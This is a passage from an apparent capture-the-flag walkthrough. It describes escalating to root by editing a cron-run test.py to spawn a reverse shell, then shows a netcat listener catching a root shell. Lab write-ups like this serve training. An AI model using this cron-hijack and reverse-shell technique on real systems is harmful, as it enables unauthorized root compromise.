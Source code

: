 * So we have a shell as the scriptmanager user, and we see that there is a scripts directory in /, lets look at that
* There are two files, test.py and test.txt
* Root is running test.py every minute as a cron and we can edit test.py
* Change code in test.py to spawn a reverse shell when its executed
```bash
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.68] 45722
# id
id
uid=0(root) gid=0(root) groups=0(root)
```
